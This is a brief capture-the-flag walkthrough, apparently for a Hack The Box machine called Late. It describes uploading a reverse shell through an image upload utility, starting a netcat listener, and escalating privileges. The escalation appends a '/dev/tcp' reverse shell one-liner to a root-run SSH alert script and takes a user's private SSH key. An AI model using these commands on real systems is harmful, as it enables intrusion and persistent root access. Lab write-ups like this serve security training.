



## Initial Exploit - 10.129.105.201

The website hosted on port 80 points to the domain `http://images.late.htb/`. Add "images.late.htb" to hosts file at `/etc/hosts`:  
```
127.0.0.1       localhost
127.0.1.1       kali  
10.129.105.201  images.late.htb late.htb
```  

Navigate to the image upload utility at `http://images.late.htb/`. Send a reverse shell in .png format:


Setup a listener:
`sudo nc -lvnp 80`

## Privledge Escalation - 10.129.105.201

Add reverse shell the script that root runs when a user logs into SSH:  
`echo "bash -i >& /dev/tcp/10.10.16.8/80 0>&1" >> /usr/local/sbin/ssh-alert.sh`

Copy private key from `/home/svc_acc/.ssh/id_rsa`.

Log into SSH:  
`ssh svc_acc@10.129.105.201 -i id_rsa`


## Proof - 10.129.105.201

### User:


### Root:
